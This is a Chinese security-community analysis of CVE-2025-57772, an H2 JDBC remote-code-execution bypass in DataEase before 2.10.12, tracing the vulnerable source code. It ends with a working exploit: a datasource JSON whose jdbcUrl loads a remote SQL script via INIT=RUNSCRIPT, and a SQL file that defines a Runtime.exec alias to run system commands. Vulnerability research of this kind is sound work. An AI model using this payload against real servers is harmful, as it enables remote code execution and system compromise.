









# DataEase H2 JDBC远程代码执行漏洞分析(CVE-2025-57772)-先知社区

> **来源**: https://xz.aliyun.com/news/18845  
> **文章ID**: 18845

---

# DataEase CVE-2025-57772

### 前言

DataEase 是一个开源的商业智能和数据可视化工具。在版本 **2.10.12** 之前，DataEase 存在 **H2 JDBC 远程代码执行（RCE）绕过漏洞**。如果 JDBC URL 满足特定条件，`getJdbcUrl` 方法会被返回，该方法作为提供的 JdbcUrl 参数的 getter 使用。这会绕过 H2 的过滤逻辑并返回 H2 JDBC URL，从而允许使用 `"driver":"org.h2.Driver"` 指定 H2 驱动进行 JDBC 连接。该漏洞已在 **2.10.12** 版本中修复。

上个月底关于CVE-2025-57772和CVE-2025-57773是一同发布的，注入点都类似，只不过CVE-2025-57773是通过db2的参数进行触发的，但点都是同一个。

### 环境

Dataease-2.9.0

### 漏洞分析

从官方给的话里面，我们知道是JBDC URL 连接的时候会出现问题，并且是控制参数jdbcURl，目的是绕过H2然后返回所构造的路径，再根据驱动进行连接。

#### 1.找驱动发生位置和实体

```
package io.dataease.datasource.type;

import io.dataease.extensions.datasource.vo.DatasourceConfiguration;
import lombok.Data;
import org.apache.commons.lang3.StringUtils;
import org.springframework.stereotype.Component;

@Data
@Component("db2")
public class Db2 extends DatasourceConfiguration {
    private String driver = "com.ibm.db2.jcc.DB2Driver";
    private String extraParams = "";

    public String getJdbc() {
        if(StringUtils.isNoneEmpty(getUrlType()) && !getUrlType().equalsIgnoreCase("hostName")){
            return getJdbcUrl();
        }
        if(StringUtils.isEmpty(extraParams.trim())){
            if (StringUtils.isEmpty(getSchema())) {
                return "jdbc:db2://HOSTNAME:PORT/DATABASE"
                        .replace("HOSTNAME", getLHost().trim())
                        .replace("PORT", getLPort().toString().trim())
                        .replace("DATABASE", getDataBase().trim());
            } else {
                return "jdbc:db2://HOSTNAME:PORT/DATABASE:currentSchema=SCHEMA;"
                        .replace("HOSTNAME", getLHost().trim())
                        .replace("PORT", getLPort().toString().trim())
                        .replace("DATABASE", getDataBase().trim())
                        .replace("SCHEMA",getSchema().trim());
            }
        }else {
            return "jdbc:db2://HOSTNAME:PORT/DATABASE:EXTRA_PARAMS"
                    .replace("HOSTNAME", getLHost().trim())
                    .replace("PORT", getLPort().toString().trim())
                    .replace("DATABASE", getDataBase().trim())
                    .replace("EXTRA_PARAMS", getExtraParams().trim());
        }
    }
}

```

这是db2的，相对应的，我们可以找到其他的，比如mysql的，会发现大多一样开头都是，一个判断

```
if(StringUtils.isNoneEmpty(getUrlType()) && !getUrlType().equalsIgnoreCase("hostName")){
    return getJdbcUrl();
}
```

根据这一页代码，我们知道我们要构造一个**DatasourceConfiguration**

但是根据回溯回去**DatasourceConfiguration**是继承于**Configuration**

看着**Configuration**下面的变量其实就有点感觉了

```
public class Configuration {
    private String type;
    private String name;
    private String catalog;
    private String catalogDesc;
    private String extraParams;
    private String keywordPrefix = "";
    private String keywordSuffix = "";
    private String aliasPrefix = "";
    private String aliasSuffix = "";
    private String jdbc;
    private String host;
    private String jdbcUrl;
    private String urlType;
    private Integer port;
    private String username;
    private String password;
    private String dataBase;
    private String schema;
    private String customDriver = "default";
    private String authMethod = "passwd";
    private String connectionType;
    private String charset;
    private String targetCharset;
    private String driver;
    private int initialPoolSize = 5;
    private int minPoolSize = 5;
    private int maxPoolSize = 50;
    private int queryTimeout = 30;
    private boolean useSSH = false;
    private String sshHost;
    private Integer sshPort;
    private Integer lPort;
    private String sshUserName;
    private String sshType = "password";
    private String sshPassword;
    private String sshKey;
    private String sshKeyPassword;
```

回到CVE介绍那，**JdbcUrl** 我们找到了，但是是如何构造的？

#### 2.如何构造？

跟随\*\*getJdbc()\*\*方法，我们去找哪里使用了它

直到找到**CalciteProvider.java**文件



来到这个地方首先比较重要的是coreDatasource的getType()，映入眼前的是switch，和熟悉的xxxDatasource，**JsonUtil**是把传递进来的参数通过json转成实体也就是刚刚的DatasourceConfiguration->Configuration对象，配置结束后会进入下面的代码区



再startSshSession开始就是建立隧道，再创建一个PProperties对象用来存储jdbc驱动的信息，再通过配置文件读取jdbc驱动，拿一个JDBC驱动类实例，用来动态加载驱动类，隔离第三方驱动。

```
Driver driverClass = (Driver) jdbcClassLoader.loadClass(driverClassName).newInstance();
conn = driverClass.connect(configuration.getJdbc(), props);
```

重点是这一部分了，上面是加载驱动，其实吧**driverClassName**我有个想法，如果配合文件上传，再通过**driverClassName**应该可以弄一个任意代码执行，因为下面的newInstance()可以直接执行我传递进来的**driverClassName**的构造方法（这仅仅是个思路）

第二行代码，便是直接连接了只要最后返回的是第一个判断里的url。

这个方法没有任何拦截和处理部分，我们接着往上走

```
public void checkDatasourceStatus(DatasourceDTO coreDatasource) {
        if (coreDatasource.getType().equals(DatasourceConfiguration.DatasourceType.Excel.name()) || coreDatasource.getType().equals(DatasourceConfiguration.DatasourceType.folder.name())) {
            return;
        }
        try {
            DatasourceRequest datasourceRequest = new DatasourceRequest();
            datasourceRequest.setDatasource(coreDatasource);
            String status = null;
            if (coreDatasource.getType().equals("API")) {
                status = ApiUtils.checkStatus(datasourceRequest);
            } else {
                Provider provider = ProviderFactory.getProvider(coreDatasource.getType());
                status = provider.checkStatus(datasourceRequest);
            }
            coreDatasource.setStatus(status);
        } catch (Exception e) {
            DEException.throwException(e.getMessage());
        }
    }
//往上找找到了这边，这边就是主要是检查数据源的，coreDatasource也看见了熟悉的变量，发现coreDatasource并没有被截取或者删改，我们就继续往上走
```

```
@Override
public String checkStatus(DatasourceRequest datasourceRequest) throws Exception {
    DatasourceConfiguration.DatasourceType datasourceType = DatasourceConfiguration.DatasourceType.valueOf(datasourceRequest.getDatasource().getType());
    switch (datasourceType) {
        case pg:
            DatasourceConfiguration configuration = JsonUtil.parseObject(datasourceRequest.getDatasource().getConfiguration(), Pg.class);
            List<String> schemas = getSchema(datasourceRequest);
            if (CollectionUtils.isEmpty(schemas) || !schemas.contains(configuration.getSchema())) {
                DEException.throwException("无效的 schema！");
            }
            break;
        default:
            break;
    }
    String querySql = getTablesSql(datasourceRequest).get(0);
    try (ConnectionObj con = getConnection(datasourceRequest.getDatasource()); Statement statement = getStatement(con.getConnection(), 30); ResultSet resultSet = statement.executeQuery(querySql)) {
    } catch (Exception e) {
        throw e;
    }
    return "Success";
}
```

第一行，我们看见是固定死了的，它是枚举去已经写好的地方去对比然后固定值的，下面是如果是pg的话就需要去查一下Schema了，后续的querySql是根据数据源类型和配置，生成查询元数据 SQL 列表，就比如Oracle是返回select table\_name from all\_tables where owner='SYSTEM'下一步是去调用我们上面的方法。我们先往这个地方看看，这里有一个过滤



大概看得出来也是通过type来进行走哪一个case，db2是检验jdbcUrl是否恶意参数，但schema只检验了是否是空oracle，也是只检查了schema 是否为空。我们回去接着往上走。





```
@Override
public DatasourceDTO validate(DatasourceDTO dataSourceDTO) throws DEException {
    dataSourceDTO.setConfiguration(new String(Base64.getDecoder().decode(dataSourceDTO.getConfiguration())));
    CoreDatasource coreDatasource = new CoreDatasource();
    BeanUtils.copyBean(coreDatasource, dataSourceDTO);
    checkDatasourceStatus(dataSourceDTO);
    DatasourceDTO result = new DatasourceDTO();
    result.setType(dataSourceDTO.getType());
    result.setStatus(dataSourceDTO.getStatus());
    return result;
}
```

恭喜你，走到这里了，这里是梦开始的地方，传递进来的DTO对象，进行base64解码转成String类型，然后把其转换成实体对象，来进行操作我们发现没有进行其余的检测，所以我们直接去看**dataSourceDTO**



它的参数有很多，但我们根据刚刚推理了，我们需要几个固定参数，第一个是最重要的Configuration，但由于它是个对象，所以我们又找到了JSON转成对象的部分DatasourceConfiguration configuration = JsonUtil.parseObject(datasourceRequest.getDatasource().getConfiguration(), 所以我们需要构造dataSourceDTO的**configuration**变量，其次前面的switch中我们需要getType()，所以type也是我们必须要的，第一层我们就构造完毕了目前是

```
{
"type":"",
"configuration":""
}
```

第二层**configuration**由于我们要构造成一个对象，所以它跟第一层有点类似，我们先去看看它必须有哪些参数

if(StringUtils.isNoneEmpty(getUrlType()) && !getUrlType().equalsIgnoreCase("hostName")) 所以必须有urltype和hostname，其次有一个地方根据传递进来的参数来确定，但如果有schema参数都会检查是否是空的，上述代码有讲解，其次username，password，driver，都不能为空

所以我们构造出来的第二层是这样的

```
{
    "driver": "",
    "jdbcUrl": "",
    "urlType": "",
    "username": "",
    "password": "",
    "schema": ""
}
```

我们jdbcurl就让其去执行外部sql文件

比如INIT=RUNSCRIPT FROM '<http://x.x.x.x/poc.sql>'

最后构造

```
{
    "driver": "org.h2.Driver",
    "jdbcUrl": "jdbc:h2:mem:adada;INIT=RUNSCRIPT FROM 'http://xxxxxx/poc2.sql'",
    "urlType": "test",
    "username": "test",
    "password": "youkillme",
    "schema": "test"
}

```

这部分在开头会经过一段base64的解码，所以我们需要将这部分编码起来，最后得到的请求包就是





#### 验证文件

```
CREATE ALIAS SHELLEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"cmd", "/c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\A");
    return s.hasNext() ? s.next() : "";
}
$$;
CALL SHELLEXEC('calc.exe');
```

### 修复

官网修复比较粗暴，都增加了几层检验在。



### 总结

可利用漏洞点还比较多，可以做深入研究一下，其次CVE-2025-57773 的注入点是差不多的，况且不止db2可以，其余的也可以的。

# 仅供学习，切勿滥用
